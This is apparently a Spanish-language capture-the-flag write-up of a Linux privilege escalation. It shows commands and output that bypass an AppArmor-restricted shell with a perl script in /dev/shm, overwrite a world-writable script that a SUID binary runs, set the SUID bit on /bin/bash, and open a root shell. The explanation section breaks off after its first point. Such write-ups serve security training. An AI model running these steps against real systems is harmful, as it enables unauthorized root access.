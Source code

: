 ```bash
think@ip-10-201-17-74:~$ echo $SHELL
/usr/sbin/ash
```

Confirmar que `/opt/run_container.sh` es writable (o que la intención es escribirlo)

```bash
think@ip-10-201-17-74:~$ ls -la /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10  2024 /opt/run_container.sh
```

Intento directo (falla por AppArmor)

```bash
think@ip-10-201-17-74:~$ echo "/bin/sh" >> /opt/run_container.sh
-ash: /opt/run_container.sh: Permission denied
```

Crear un script en /dev/shm (shebang perl) y ejecutarlo para obtener shell menos restringida

```bash
think@ip-10-201-17-74:~$  echo -e '#!/usr/bin/perl\nexec "/bin/sh"' > /dev/shm/test.pl
think@ip-10-201-17-74:~$ chmod +x /dev/shm/test.pl
think@ip-10-201-17-74:~$ /dev/shm/test.pl
```

Desde la shell no confinada, sobrescribir el script root con payload

```bash
echo '#!/bin/bash\nchmod +s /bin/bash' > /opt/run_container.sh
```

Esto crea un `/opt/run_container.sh` que, cuando se ejecute como root, pondrá el bit SUID en `/bin/bash`.

```bash
$ /usr/sbin/run_container
```

El SUID ejecuta `/opt/run_container.sh` **con EUID=root**, por tanto `chmod +s /bin/bash` se ejecuta como root. Luego comprobar:

```bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Obtener shell root

```bash
/bin/bash -p
bash-5.0# id
uid=1000(think) gid=1000(think) euid=0(root) egid=0(root) groups=0(root),1000(think)
```


## Explicación 

1. `/usr/sbin/run_container` se ejecuta con privilegios de root (SUID) y llama a `/opt/run_container.sh`

